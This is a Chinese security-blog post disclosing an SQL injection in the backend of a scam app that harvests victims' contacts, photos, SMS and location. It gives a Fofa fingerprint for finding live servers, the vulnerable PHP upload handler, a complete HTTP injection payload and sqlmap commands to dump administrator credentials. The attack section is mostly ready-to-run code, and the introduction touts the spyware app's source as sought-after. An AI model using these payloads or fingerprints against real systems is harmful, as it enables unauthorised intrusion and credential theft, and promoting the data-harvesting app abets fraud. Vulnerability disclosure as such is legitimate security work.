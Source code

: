#  某新版诈骗双端APP通讯录存在前台SQL注入漏洞  
 菜狗安全   2025-07-12 07:59  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**2025 获取双端txl通讯录、相册、短信、定位、已安装APP信息，代码无加密，搭建简单，安卓端是原生纯源码，iOS端是uniapp纯源码，也是有价值的，很多人都在找能用的.**  
  
**Fofa指纹 : "由Thinkphp5提供高性能框架开发而生！"**  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREk6pMgmCibhxuVWsibfnrDdybRGkCcWszWmGHMgOOTBAf2f8S5viaKibPBA/640?wx_fmt=other&from=appmsg "")  
  
看见这后台就懂了，某些ZP的用的  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREd8El63icYY7Xx7nK3n3xGv87YTsEaia3xYJSqOUJt3Zd3trLLpvnx9hw/640?wx_fmt=other&from=appmsg "")  
  
框架:ThinkPHP 5.0.24 Debug:true  
##   
## 0x01 漏洞分析&复现  
  
**位于 /api.php 中，通过GET传入ID参数，直接进入SQL查询字句，且未加过滤，导致漏洞产生，其中需POST传入img参数，实际上传的文件后缀被写死.**  
  
****  
```
<?phpheader('Access-Control-Allow-Origin:*');header('Content-Type:text/plain;charset=utf-8');require('conn.php');    function imgbc($image)    {        $imageName = "25220_".date("His",time())."_".rand(1111,9999).'.png';        if (strstr($image,",")){          $image = explode(',',$image);        $image = $image[1];        }        $path = "./uploads/".date("Ymd",time());        if (!is_dir($path)){ //判断目录是否存在 不存在就创建          mkdir($path,0777,true);        }        $imageSrc= $path."/". $imageName; //图片名字        $r = file_put_contents($imageSrc, base64_decode($image));//返回的是字节数        return"/uploads/".date("Ymd",time())."/". $imageName;    }    if(isset($_POST['img'])){        $img = imgbc('data:image/jpg;base64,'.$_POST['img']);        $userid = $_GET['id'];        $sqlUser = "select * from app_user where name = '$userid'";    $resultUser = mysqli_query($conn,$sqlUser);    if ($resultUser->num_rows > 0) {        $row = $resultUser->fetch_assoc();        $user_id = $row['id'];                $sql = "INSERT INTO app_xiangce VALUES (null, '".$user_id."',null,'".$img."', '".time()."')";             if ($conn->query($sql) == TRUE) {            echo"成功";        } else {            echo"Error: " . $sql . "<br>" . $conn->error;        }    }else{         echo"Error: " . $sql . "<br>" . $conn->error;    }}
```  
  
  
**Payload（爆库）:**  
  
```
POST /api.php?id='+AND+EXTRACTVALUE(6165,CONCAT(0x5c,(SELECT+(USER()))))--+KrBJ HTTP/1.1Host: 192.168.140.128Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36Content-Type: application/x-www-form-urlencodedAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Length: 5img=1
```  
  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREEiaXtZNLcCaNFlZRrTU2cgf1VZ7GLeITwWGfgAbrQmmeiadQibLfjDaGQ/640?wx_fmt=other&from=appmsg "")  
  
**Python sqlmap.py -r a.txt --level=3 --dbms=mysql**  
  
****  
****  
****  
**-T app_admin -C name,password --dump   爆出管理员表的账密**  
## 0x02 关注公众号  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，交易所**  
  
**关注公众号，获取最新安全文章!**  
  
****  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
